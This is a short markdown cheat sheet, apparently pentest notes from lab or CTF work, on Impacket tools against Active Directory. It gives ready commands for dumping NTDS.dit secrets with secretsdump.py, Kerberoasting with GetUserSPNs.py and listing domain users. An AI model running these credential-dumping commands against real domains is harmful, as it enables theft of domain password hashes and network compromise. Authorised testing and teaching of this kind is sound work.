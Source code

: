 # Impacket

Impacket is a suit of tool used to pentest Active Directories


## Useful pieces of code
- GetNPUsers.py (ASREP-Roasting)
- GetUserSPNs.py (Kerberoasting)
- secretDump.py (NTDS secrets)


## Dump NTDS.dit secrets w/ secretdump.py
Requirements : Credentials
```bash
secretsdump.py -just-dc backup@spookysec.local
```	
## Dump NTDS.dit secrets w/ secretdump.py
Requirements : NTDS.dit and SYSTEM files
```bash
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL
```

## Kerberoast
This following command line will dump Kerberos hashes and return any kerberoastable users.  
Requirements : Credentials
```bash
GetUserSPNs.py controller.local/"username":"password" -dc-ip <IP> -request
```

## Get-ADUser.py

```bash
GetADUsers.py -all ROOTME.local/'username':'password' -dc-ip IP_ADDRESS
```